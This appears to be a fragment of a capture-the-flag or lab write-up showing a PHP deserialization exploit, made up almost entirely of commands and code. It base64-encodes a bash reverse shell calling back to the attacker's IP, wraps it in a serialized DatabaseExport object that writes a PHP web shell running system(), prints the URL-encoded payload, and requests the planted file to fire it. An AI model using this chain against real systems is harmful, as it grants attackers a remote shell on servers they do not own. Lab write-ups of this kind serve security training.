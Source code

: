 ![](/img2/Pasted%20image%2020250628214234.png)

- Reverse Shell

```bash
❯ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.5/9000 0>&1'" | base64
```

```ruby
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzkwMDAgMD4mMScK
```

```php
<?php

class DatabaseExport{

	public $user_file= "test.php";
	public $data= "<?php system('echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzkwMDAgMD4mMScK| base64 -d |bash');?>";

}

echo urlencode(serialize(new DatabaseExport))

?>
```

```bash
❯ php exploit.php
```

```ruby
O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A8%3A%22test.php%22%3Bs%3A4%3A%22data%22%3Bs%3A109%3A%22%3C%3Fphp+system%28%27echo+YmFzaCAtYyAnYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC41LzkwMDAgMD4mMScK%7C+base64+-d+%7Cbash%27%29%3B%3F%3E%22%3B%7D
```

![](/img2/Pasted%20image%2020250628214853.png)

```bash
❯ curl http://10.10.10.223/test.php
```

